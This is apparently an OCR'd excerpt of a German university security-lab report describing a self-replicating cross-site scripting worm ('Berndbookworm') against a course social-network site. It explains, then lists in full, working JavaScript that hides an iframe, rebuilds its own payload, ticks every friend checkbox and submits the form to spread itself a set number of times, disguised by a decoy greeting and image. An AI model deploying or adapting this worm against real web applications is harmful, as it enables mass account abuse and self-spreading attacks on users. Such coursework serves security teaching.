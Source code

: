 \documentclass[10pt,a4paper]{article}
\begin{document}
Das Listing \ref{berndbookworm} zeigt unsere Version des Berndbookworm. Dabei enthält das Listing die initiale Nachricht. Wir benutzen ein iFrame um die Website \texttt{http://berndbook.seclab.uni-paderborn.de/send.php} mit den Anmeldedaten vom aktuellen Benutzer aufzurufen. Damit dies nicht auffällt verstecken wir den iFrame per CSS Befehlen. Danach laden wir jQuery nach um uns die Arbeit mit den Website Elementen zu vereinfachen. In Zeile 8 fängt unser eigentliches Angriffskript an. Die Funktion \texttt{reproduction} führt die eigentliche Reproduktion aus. Es setzt die selbe Nachricht noch einmal zusammen. Dabei wird der aktuelle Parameter n um eins verringert. Dies sorgt dafür, dass sich das Skript nur \textit{n} mal weiterverbreitet. Anschließend setzt das Skript diese Nachricht in das Formular auf der Unterseite \texttt{send.php} ein. Dann werden alle Checkboxen, die die Freunde repräsentiert ausgefüllt und das Formular abgeschickt. Damit die leere Nachricht den Benutzern nicht sofort auffällt haben wir einen Text ("CHello my freend!") und ein Bild in die Nachricht eingefügt.

\begin{lstlisting}[caption=Berndbookworm, label=berndbookworm]
CHello my freend!
<img src="https://alcapwn.de/logo.png" />
<iframe src="http://berndbook.seclab.uni-paderborn.de/send.php" name="send_in_a_box" style="visibility:hidden;" width="0" height="0"></iframe>

<script type="text/javascript" src="http://code.jquery.com/jquery-1.10.2.min.js">
</script>

<script type="text/javascript">

function reproduction(n){
	if (n >0){
		reproduction_function = reproduction.toString();
		iframe_string = "CHello my freend!<img src=\"https://alcapwn.de/logo.png\"\/><iframe src=\"http://berndbook.seclab.uni-paderborn.de/send.php\" name=\"send_in_a_box\" style=\"visibility:hidden;\" width=\"0\" height=\"0\"></iframe>";
		jquery_string = "<script type=\"text/javascript\" src=\"http://code.jquery.com/jquery-1.10.2.min.js\"><\/script>";
		script_start = "<script type=\"text/javascript\">";
		function_call = "$('body').attr('onload','reproduction(" + (n-1) + ");');"
		script_end = "<\/script>";
		msg = iframe_string + jquery_string + script_start + reproduction_function + function_call + script_end;
		$('iframe').contents().find('textarea').val(msg);
		$('iframe').contents().find('input[type=checkbox]').click();
		$("iframe").contents().find("input[type=submit]").click()
	}
}

$('body').attr('onload','reproduction(2);');
</script>
\end{lstlisting}
\end{document}
